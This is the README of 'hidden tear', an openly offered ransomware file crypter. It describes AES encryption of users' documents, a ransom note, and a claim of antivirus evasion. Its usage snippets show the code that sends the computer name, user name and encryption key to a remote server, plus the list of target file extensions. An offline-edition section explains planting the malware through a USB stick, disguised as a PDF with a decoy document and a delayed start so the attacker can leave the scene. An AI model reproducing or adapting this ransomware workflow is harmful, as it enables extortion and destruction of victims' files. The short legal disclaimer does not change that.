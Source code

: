          _     _     _     _              _                  
        | |   (_)   | |   | |            | |                 
        | |__  _  __| | __| | ___ _ __   | |_ ___  __ _ _ __ 
        | '_ \| |/ _` |/ _` |/ _ \ '_ \  | __/ _ \/ _` | '__|
        | | | | | (_| | (_| |  __/ | | | | ||  __/ (_| | |   
        |_| |_|_|\__,_|\__,_|\___|_| |_|  \__\___|\__,_|_|   
                                                     
It's a ransomware-like file crypter sample which can be modified for specific purposes. 

**Features**
* Uses AES algorithm to encrypt files.
* Sends encryption key to a server.
* Encrypted files can be decrypted in decryption program with encryption key.
* Creates a text file on Desktop with given message.
* Small file size (12 KB)
* Undetectable by antivirus programs (15/08/2015) http://nodistribute.com/result/6a4jDwi83Fzt

**Demonstration Video**

https://www.youtube.com/watch?v=LtiRISepIfs

**Usage**

* You need to have a web server which supports scripting languages like php,python etc. Change this line with your URL. (You better use Https connection to avoid eavesdropping)

  `string targetURL = "https://www.example.com/hidden-tear/write.php?info=";`

* The script should writes the GET parameter to a text file. Sending process running in `SendPassword()` function

  ```
  string info = computerName + "-" + userName + " " + password;
  var fullUrl = targetURL + info;
  var conent = new System.Net.WebClient().DownloadString(fullUrl);
  
  ```
* Target file extensions can be change. Default list:

```
var validExtensions = new[]{".txt", ".doc", ".docx", ".xls", ".xlsx", ".ppt", ".pptx", ".odt", ".jpg", ".png", ".csv", ".sql", ".mdb", ".sln", ".php", ".asp", ".aspx", ".html", ".xml", ".psd"};
```
## Hidden Tear Offline Edition or: How I Learned to Stop Worrying and Love the Criminal Mind

What if there is a computer with full of important files and what if it has no internet or network connection. We can access it physically. But what if we were being watched, how can we execute hidden tear and get the encryption key?

**Demonstration Video**

https://www.youtube.com/watch?v=ayjv_aAwO0k

**Prerequisites**

Firstly you should have a usb stick which includes:

* exe file of hidden tear offline with a pdf icon.
* a normal pdf file like hotel reservation, ticket, lecture notes (that depends on your social engineering scenario)
* a txt file

**Workflow**

After you plugged usb stick to the computer, double click to .exe file. Don't worry, the normal pdf file will be open.

Hidden tear offline creates an encryption key and saves it into the txt file which is inside your usb stick. After than it copies exe file to the computer and executes. This process will be done in seconds. After than, you can unplug your usb stick.

Hidden tear offline will wait for some time which specified before, lets say 10 minutes. After 10 minutes, it will encrypt all the target files in computer. This part is same with the original hidden tear.

**Usage**

* Hidden tear offline will save the encryption key inside this txt file.

`string usbPassword = "adobe.txt";`

* It copies itself to this path after the first execution.

`string exePath = userDir + userName + "\\table.exe";`

* Name of the normal pdf file.

`System.Diagnostics.Process.Start("ticket.pdf");`

* `Timer1`'s interval represents the encryption start time. If you set it to 600000 miliseconds, encryption action will start after 10 minutes the first execution. If you need more time to leave the scene, you can increase the interval.

## Legal Warning

While this may be helpful for some, there are significant risks. hidden tear may be used only for Educational Purposes. Do not use it as a ransomware! You could go to jail on obstruction of justice charges just for running hidden tear, even though you are innocent.

## Thanks

Special thanks to Ikikardes who helped me to publish this code.
